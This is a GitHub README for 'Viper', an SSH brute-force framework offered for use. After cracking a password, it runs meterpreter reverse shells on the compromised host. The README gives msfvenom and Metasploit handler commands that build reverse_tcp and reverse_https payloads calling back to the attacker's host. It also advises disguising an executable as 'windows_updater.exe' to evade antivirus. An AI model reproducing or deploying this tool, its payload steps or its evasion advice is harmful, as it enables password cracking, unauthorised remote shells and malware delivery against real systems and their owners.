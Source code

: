 Viper V1.2
================
Viper is a SSH Multi-Threaded Brute force Framework
 
Features
=============
- Multi Threaded using multiprocessing can use a maximum of 5 Threads
- Easy to configure 
- Adjustable Threads
- Visual UI including progress bar
- When password is cracked program will attempt to execute a meterpreter payload
- Built in reverse meterpreter shell for Linux and Windows
- Supports x86,x64 archtechture for Windows and Linux
- [*Updated Feature] Added python/meterpreter/reverse_tcp_ssl
- [*New Feature] Added windows/meterpreter/reverse_tcp 
- [*New Feature] Detects account lockout
- [*New Feature] Detects if AMSI has blocked payload
- [*New Feature] Upload file to server if code execution fails
 

TODO
=========
- Add OS version detection


Payloads
=================

* Windows Meterpreter:
  - generate payload from exploit/multi/script/web_delivery for every metasploit session
  - enable SSL: set SSL true
  - set payload windows/meterpreter/reverse_tcp
  - Select powershell payload: set target 2
  - set LPORT 8443
  - set LHOST
  - run
  - copy payload and replace value of client.exec_command()
  
* Python Meterpreter:
 - generate payload: msfvenom -p payload python/meterpreter/reverse_tcp_ssl lhost=IP lport=4433 -f python -o update.py
 - use exploit/multi/handler
 - set payload python/meterpreter/reverse_tcp_ssl
 - set LPORT 4433
 - set LHOST
 - run -j
 
* Linux Meterpreter:
 - generate payload: msfvenom -p payload linux/x86/meterpreter_reverse_https lhost=IP lport=443 -f elf -o payload.elf
 - use exploit/multi/handler
 - set payload linux/x86/meterpreter_reverse_https
 - set LPORT 443
 - set LHOST
 - run -j

Note
=========
- If threads set to 5 if someone logs in to SSH while brute-forcing program will crash.
- Add own windows executable to /Files/windows_updater.exe to bypass AV and change windows_malware variable to windows_updater.exe.

Run
========
- Generate payloads/files and put in Files folder
- Edit config in Viper.py script to set to target
